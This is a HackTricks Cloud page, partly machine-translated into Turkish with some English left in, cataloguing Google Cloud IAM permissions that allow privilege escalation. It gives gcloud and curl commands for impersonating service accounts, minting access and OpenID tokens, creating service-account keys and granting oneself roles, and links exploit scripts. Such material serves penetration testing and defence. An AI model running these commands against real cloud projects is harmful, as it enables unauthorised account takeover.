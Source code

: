 # GCP - IAM Privesc

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}

## IAM

IAM hakkında daha fazla bilgi için:

{% content-ref url="../gcp-services/gcp-iam-and-org-policies-enum.md" %}
[gcp-iam-and-org-policies-enum.md](../gcp-services/gcp-iam-and-org-policies-enum.md)
{% endcontent-ref %}

### `iam.roles.update` (`iam.roles.get`)

Belirtilen izinlere sahip bir saldırgan, size atanan bir rolü güncelleyebilir ve size diğer kaynaklara ek izinler verebilir:
```bash
gcloud iam roles update <rol name> --project <project> --add-permissions <permission>
```
Bir **vuln ortamının oluşturulması, istismar edilmesi ve temizlenmesi için bir script burada** bulunabilir ve bu yetkiyi kötüye kullanmak için bir python scripti [**burada**](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/iam.roles.update.py) mevcuttur. Daha fazla bilgi için [**orijinal araştırmaya**](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/) bakın.

### `iam.serviceAccounts.getAccessToken` (`iam.serviceAccounts.get`)

Bahsedilen izinlere sahip bir saldırgan, **bir Hizmet Hesabına ait bir erişim tokeni talep edebilecektir**, bu nedenle bizden daha fazla yetkiye sahip bir Hizmet Hesabının erişim tokenini talep etmek mümkündür.
```bash
gcloud --impersonate-service-account="${victim}@${PROJECT_ID}.iam.gserviceaccount.com" \
auth print-access-token
```
Bir [**vuln ortamının oluşturulması, istismar edilmesi ve temizlenmesi için bir scripti burada bulabilirsiniz**](https://github.com/carlospolop/gcp_privesc_scripts/blob/main/tests/4-iam.serviceAccounts.getAccessToken.sh) ve bu yetkiyi kötüye kullanmak için bir python scriptini [**burada**](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/iam.serviceAccounts.getAccessToken.py) bulabilirsiniz. Daha fazla bilgi için [**orijinal araştırmaya**](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/) bakın.

### `iam.serviceAccountKeys.create`

Belirtilen izinlere sahip bir saldırgan, **bir Hizmet Hesabı için kullanıcı tarafından yönetilen bir anahtar oluşturabilecektir**, bu da bize GCP'ye o Hizmet Hesabı olarak erişim sağlayacaktır.
```bash
gcloud iam service-accounts keys create --iam-account <name> /tmp/key.json

gcloud auth activate-service-account --key-file=sa_cred.json
```
Bir vuln ortamın [**oluşturulması, istismar edilmesi ve temizlenmesi için bir script burada**](https://github.com/carlospolop/gcp_privesc_scripts/blob/main/tests/3-iam.serviceAccountKeys.create.sh) ve bu yetkiden yararlanmak için bir python scripti [**burada**](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/iam.serviceAccountKeys.create.py) bulunmaktadır. Daha fazla bilgi için [**orijinal araştırmaya**](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/) bakın.

**`iam.serviceAccountKeys.update`'in bir SA'nın anahtarını değiştirmek için çalışmayacağını** unutmayın çünkü bunu yapmak için `iam.serviceAccountKeys.create` izni de gereklidir.

### `iam.serviceAccounts.implicitDelegation`

Eğer **`iam.serviceAccounts.implicitDelegation`** iznine sahipseniz ve bu izne sahip bir Service Account'un **`iam.serviceAccounts.getAccessToken`** iznine sahip olduğu üçüncü bir Service Account varsa, o zaman implicitDelegation kullanarak **o üçüncü Service Account için bir token oluşturabilirsiniz**. Açıklamaya yardımcı olacak bir diyagram burada.

![](https://rhinosecuritylabs.com/wp-content/uploads/2020/04/image2-500x493.png)

**Dokümantasyona** göre [**belirtilmiştir**](https://cloud.google.com/iam/docs/understanding-service-accounts), `gcloud`'un delegasyonu yalnızca [**generateAccessToken()**](https://cloud.google.com/iam/credentials/reference/rest/v1/projects.serviceAccounts/generateAccessToken) yöntemini kullanarak bir token oluşturmak için çalışır. İşte API'yi doğrudan kullanarak bir token almanın yolu:
```bash
curl -X POST \
'https://iamcredentials.googleapis.com/v1/projects/-/serviceAccounts/'"${TARGET_SERVICE_ACCOUNT}"':generateAccessToken' \
-H 'Content-Type: application/json' \
-H 'Authorization: Bearer '"$(gcloud auth print-access-token)" \
-d '{
"delegates": ["projects/-/serviceAccounts/'"${DELEGATED_SERVICE_ACCOUNT}"'"],
"scope": ["https://www.googleapis.com/auth/cloud-platform"]
}'
```
You can find a script to automate the [**creation, exploit and cleaning of a vuln environment here**](https://github.com/carlospolop/gcp_privesc_scripts/blob/main/tests/5-iam.serviceAccounts.implicitDelegation.sh) and a python script to abuse this privilege [**here**](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/iam.serviceAccounts.implicitDelegation.py). For more information check the [**original research**](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/).

### `iam.serviceAccounts.signBlob`

An attacker with the mentioned permissions will be able to **GCP'de rastgele yükleri imzalamak**. Bu nedenle, **SA'nın imzasız bir JWT'sini oluşturmak ve ardından hedeflediğimiz SA tarafından imzalanmış JWT'yi almak için bir blob olarak göndermek** mümkün olacaktır. For more information [**read this**](https://medium.com/google-cloud/using-serviceaccountactor-iam-role-for-account-impersonation-on-google-cloud-platform-a9e7118480ed).

You can find a script to automate the [**creation, exploit and cleaning of a vuln environment here**](https://github.com/carlospolop/gcp_privesc_scripts/blob/main/tests/6-iam.serviceAccounts.signBlob.sh) and a python script to abuse this privilege [**here**](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/iam.serviceAccounts.signBlob-accessToken.py) and [**here**](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/iam.serviceAccounts.signBlob-gcsSignedUrl.py). For more information check the [**original research**](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/).

### `iam.serviceAccounts.signJwt`

An attacker with the mentioned permissions will be able to **iyi biçimlendirilmiş JSON web token'larını (JWT'ler) imzalamak**. Önceki yöntemle arasındaki fark, **google'ın bir JWT içeren bir blob'u imzalamasını sağlamak yerine, zaten bir JWT bekleyen signJWT yöntemini kullanmamızdır**. Bu, kullanımı kolaylaştırır ancak yalnızca JWT'leri imzalayabilirsiniz, herhangi bir baytı değil.

You can find a script to automate the [**creation, exploit and cleaning of a vuln environment here**](https://github.com/carlospolop/gcp_privesc_scripts/blob/main/tests/7-iam.serviceAccounts.signJWT.sh) and a python script to abuse this privilege [**here**](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/iam.serviceAccounts.signJWT.py). For more information check the [**original research**](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/).

### `iam.serviceAccounts.setIamPolicy` <a href="#iam.serviceaccounts.setiampolicy" id="iam.serviceaccounts.setiampolicy"></a>

An attacker with the mentioned permissions will be able to **hizmet hesaplarına IAM politikaları eklemek**. Bunu, **hizmet hesabını taklit etmek için ihtiyaç duyduğunuz izinleri kendinize vermek** için kötüye kullanabilirsiniz. Aşağıdaki örnekte, ilginç SA üzerinde `roles/iam.serviceAccountTokenCreator` rolünü kendimize veriyoruz:
```bash
gcloud iam service-accounts add-iam-policy-binding "${VICTIM_SA}@${PROJECT_ID}.iam.gserviceaccount.com" \
--member="user:username@domain.com" \
--role="roles/iam.serviceAccountTokenCreator"

# If you still have prblem grant yourself also this permission
gcloud iam service-accounts add-iam-policy-binding "${VICTIM_SA}@${PROJECT_ID}.iam.gserviceaccount.com" \ \
--member="user:username@domain.com" \
--role="roles/iam.serviceAccountUser"
```
You can find a script to automate the [**creation, exploit and cleaning of a vuln environment here**](https://github.com/carlospolop/gcp_privesc_scripts/blob/main/tests/d-iam.serviceAccounts.setIamPolicy.sh)**.**

### `iam.serviceAccounts.actAs`

The **iam.serviceAccounts.actAs permission** is like the **iam:PassRole permission from AWS**. It's essential for executing tasks, like initiating a Compute Engine instance, as it grants the ability to "actAs" a Service Account, ensuring secure permission management. Without this, users might gain undue access. Additionally, exploiting the **iam.serviceAccounts.actAs** involves various methods, each requiring a set of permissions, contrasting with other methods that need just one.

#### Service account impersonation <a href="#service-account-impersonation" id="service-account-impersonation"></a>

Bir hizmet hesabını taklit etmek, **yeni ve daha iyi ayrıcalıklar elde etmek** için çok faydalı olabilir. Başka bir hizmet hesabını [taklit etmenin üç yolu vardır](https://cloud.google.com/iam/docs/understanding-service-accounts#impersonating_a_service_account):

* Kimlik doğrulama **RSA özel anahtarları kullanarak** (yukarıda ele alındı)
* Yetkilendirme **Cloud IAM politikaları kullanarak** (burada ele alındı)
* **GCP hizmetlerinde işler dağıtarak** (bir kullanıcı hesabının ele geçirilmesiyle daha ilgili)

### `iam.serviceAccounts.getOpenIdToken`

Belirtilen izinlere sahip bir saldırgan, bir OpenID JWT oluşturabilecektir. Bunlar kimliği doğrulamak için kullanılır ve bir kaynağa karşı herhangi bir örtük yetkilendirme taşımazlar.

Bu [**ilginç yazıya**](https://medium.com/google-cloud/authenticating-using-google-openid-connect-tokens-e7675051213b) göre, hedef kitlenin (token'ı kimlik doğrulamak için kullanmak istediğiniz hizmet) belirtilmesi gerekmektedir ve hizmet hesabını ve JWT'nin hedef kitlesini belirten google tarafından imzalanmış bir JWT alacaksınız.

Erişiminiz varsa bir OpenIDToken oluşturabilirsiniz:
```bash
# First activate the SA with iam.serviceAccounts.getOpenIdToken over the other SA
gcloud auth activate-service-account --key-file=/path/to/svc_account.json
# Then, generate token
gcloud auth print-identity-token "${ATTACK_SA}@${PROJECT_ID}.iam.gserviceaccount.com" --audiences=https://example.com
```
Sonra bunu servise erişmek için kullanabilirsiniz:
```bash
curl -v -H "Authorization: Bearer id_token" https://some-cloud-run-uc.a.run.app
```
Bazı hizmetler, bu tür token'lar aracılığıyla kimlik doğrulamayı desteklemektedir:

* [Google Cloud Run](https://cloud.google.com/run/)
* [Google Cloud Functions](https://cloud.google.com/functions/docs/)
* [Google Identity Aware Proxy](https://cloud.google.com/iap/docs/authentication-howto)
* [Google Cloud Endpoints](https://cloud.google.com/endpoints/docs/openapi/authenticating-users-google-id) (Google OIDC kullanıyorsanız)

Bir hizmet hesabı adına OpenID token oluşturma ile ilgili bir örneği [**burada**](https://github.com/carlospolop-forks/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/iam.serviceAccounts.getOpenIdToken.py) bulabilirsiniz.

## Referanslar

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}
